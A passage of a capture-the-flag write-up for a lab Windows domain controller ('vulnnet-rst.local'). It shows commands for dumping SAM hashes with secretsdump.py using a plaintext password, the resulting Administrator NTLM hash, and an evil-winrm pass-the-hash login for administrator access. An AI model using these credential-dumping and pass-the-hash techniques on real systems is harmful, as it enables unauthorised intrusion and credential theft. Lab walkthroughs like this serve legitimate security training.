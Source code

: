 There's a few ways to priv esc here

`whoami /priv` shows that a-whitehat has every privilege possible so we COULD use juicy potato.

Because we have creds, `secretsdump.py` will also dump hashes for us.

`python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.127.164`

This will give us the NTLM hash for `Administrator`

```bash
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We can either crack the hash or use a Pass The Hash attack.

We can pass the hash with `evil-winrm`

`evil-winrm -i 10.10.127.164 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"`

This gives us root. We can grab the flag at `c:\users\administrator\desktop`



